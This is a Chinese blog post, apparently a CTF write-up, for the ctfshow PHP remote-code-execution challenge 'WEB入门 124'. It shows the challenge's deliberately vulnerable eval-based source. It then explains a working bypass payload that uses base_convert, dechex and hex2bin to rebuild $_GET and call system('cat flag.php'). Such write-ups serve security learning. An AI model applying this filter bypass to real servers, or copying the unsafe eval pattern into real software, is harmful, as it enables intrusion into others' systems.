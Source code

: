```yaml
---
layout: post
title: ctfshow writeup
category: web安全（早就不搞）
date: 2023-8-17
---
```

远古笔记
<!-- more -->
[toc]

# WP

## WEB入门 124

> RCE、代码审计

打开这道题，源码已经给了出来，如下：

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
}
```

看一下代码，首先将GET方式得到的c计算长度，不能大于80，然后不能含有`\t \r \n ' " [ ] `，以及空格和反引号等字符。接下来是一个正则，前面部分匹配小写大写字母和下划线，后面匹配小写大写字母和数字和下划线，前面假如是数字开头，是不会被匹配的。刚开始以为这里有什么玄机，但并没有。

再者，注意一下`$content`这个变量，明显也是可以通过`;`来输入多条语句的。

然后说是只允许使用几个数学的函数，点上面的链接看这些函数，有几个比较重要：

> base_convert(source, input_base, out_base)

这里就是把`source`从`input_base`转换到`out_base`，且进制最大为36，返回值是字符串类型的，那这里就可控了。

在36进制下，任何一个小写字母都是存在的，因此我们可以通过`base_convert`将一个十进制字符串转化为一个任意的小写字符和数字的字符串。

> dechex(num)

这个不用说，把十进制数字转化为十六进制字符串，虽然`base_convert`是可以这样用，但是这里题目要求不能大于80，这个用法比较短呀，因此要构造的字符串中的字母在`a-f`之间都是可以用这个的。



有了上面两个函数，第一反应是直接构造一个system，但想了下这里没办法空格，自然没有办法直接`cat xxx`.因此这里就需要另一个函数`hex2bin($hex_str)`，可以将十六进制字符串按照Ascii码转化为任意字符串。这里这道题就快出来了，说一下payload，再说下payload含义。

payload:

```php
c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{1}($$pi{2});
&1=system
&2=cat flag.php
```

首先，因为有这么多限制，绕过起来太麻烦，而上面也说到可以传入多条命令，因此可以构造`$_GET`函数出来以得到各种可控变量。字符串`_GET`我们使用`hex2bin`可以构造出来。我们用`bin2hex('_GET')`可以得到字符串`_GET`对应的十六进制字符串`5f474554`。再用`hexdec('5f474554')`可以得到字符串`_GET`最终对应的十进制数是`1598506324`，那要恢复`_GET`这个字符串，我们倒过来，使用`hex2bin(dechex(1598506324))`，就可以了！

因此，构造`hex2bin`，即`base_convert(37907361743,10,36)`，然后里面是算出来的，不变，因此`_GET`就通过payload里面第一行构造出来了，我们将其赋值给变量`$pi`。原因是不能用别的字符，会被正则，这里用一个短一点的可用函数直接覆盖变量即可。然后使用`$$pi`，这样也就是函数`$_GET`，就可以得到任意字符的变量。

最后构造一个`system('cat flag.php')`即可。大概也只需要注意一下`$_GET`和`$_POST`是可以通过`{}`形式来传递参数的。